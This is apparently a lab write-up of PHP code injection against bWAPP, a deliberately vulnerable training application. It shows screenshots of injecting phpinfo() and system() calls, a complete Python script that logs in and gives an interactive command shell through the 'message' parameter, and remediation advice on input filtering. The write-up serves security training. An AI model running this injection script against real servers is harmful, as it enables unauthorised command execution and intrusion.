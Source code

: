 # 1. Low
In first arrived, we can see as belowing

![PHP_C-i_L0.png](image/PHP_C-i_L0.png)

After clicked on message button, the browser refresh the webpage and add the parameter `?message=<our_input>`, I tried to input with following value `message=phpinfo();` as POST method

![PHP_C-i_L1.png](image/PHP_C-i_L1.png)

After success running, I tried using `system()` to execute payload and it success. So that I built the script that make us easy to interact with the server through the server's response.

![PHP_C-i_L2.png](image/PHP_C-i_L2.png)

---
# 2. Medium
In this case, Medium and High level are using function `htmlspecialchars()` to filter our input. So could not bypass it.

![PHP_C-i_M0.png](image/PHP_C-i_M0.png)

---
# 3. Script Supported

```python
from urllib3.exceptions import InsecureRequestWarning  
from urllib.parse import quote, unquote  
import requests  
import urllib3  
import re  
  
urllib3.disable_warnings(InsecureRequestWarning)  
HOST_NAME = "http://bee.bug/"  
session = requests.session()  
session.verify = False  
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'  
session.headers['Accept'] = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'  
proxies = {"http": '127.0.0.1:8080', "https": '127.0.0.1:8080'}  
security_level = {"0": "Low", "1": "Medium", "2": "High"}  
  
  
def get_php_session():  
    username = 'bee'  
    password = 'bug'  
    header = session.headers.update({"Content-Type": "application/x-www-form-urlencoded"})  
    print('[+] Preparing Header: Content-Type": "application/x-www-form-urlencoded')  
    credential_parameters = f"login={username}&password={password}&security_level=0&form=submit"  
    print(f'[+] Preparing Login parameters: {credential_parameters}')  
    print(f'[*] Requesting with POST {HOST_NAME + "bWAPP/login.php"}')  
    response = session.post(HOST_NAME + "bWAPP/login.php", headers=header, data=credential_parameters,  
                            allow_redirects=False)  
    if response.status_code == 302:  
        print(f'   [{response.status_code}] Login Successfully with Username: {username} - Password: {password}')  
        print(f'   [{response.status_code}] Got PHPSESSID: {session.cookies["PHPSESSID"]}')  
        print(f'   [{response.status_code}] Got security_level: {security_level.get(session.cookies["security_level"])}')  
        print()  
        return session.cookies["security_level"]  
    else:  
        print('[-] False to authenticate. Try with another known credentials')  
  
  
def inject_code():  
    uri = 'bWAPP/phpi.php'  
    url = HOST_NAME + uri  
    print(f'[+] Requesting to: {url}')  
    user_input = input('   [*] PHP> ')  
    if 'exit' in user_input.lower() and len(user_input.replace(' ','')) == 4:  
        print('   [-] Exiting ...')  
        return 1  
    payload = ("'<pre>======================<br>';"  
               f"echo 'Your Command: {user_input}<br><br>';"  
               f"system('{user_input}');"  
               f"echo '======================</pre>';")  
    response = session.post(url, data=f'message={quote(payload)}')  
    if response.ok:  
        result = re.search("Your Command:.+?<br><br>(.+?)======================", response.text, re.S)  
        if result:  
            print(result.group(1))  
        else:  
            print('   [-] Command not found!')  
  
  
if __name__ == '__main__':  
    sec_level = get_php_session()  
    while True:  
        try:  
            if sec_level == "0":  
                if_exit = inject_code()  
                if if_exit:  
                    break  
            else:  
                print('[-] Medium and High level could not bypass because of using htmlspecialchars() function')  
        except KeyboardInterrupt:  
            break
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)
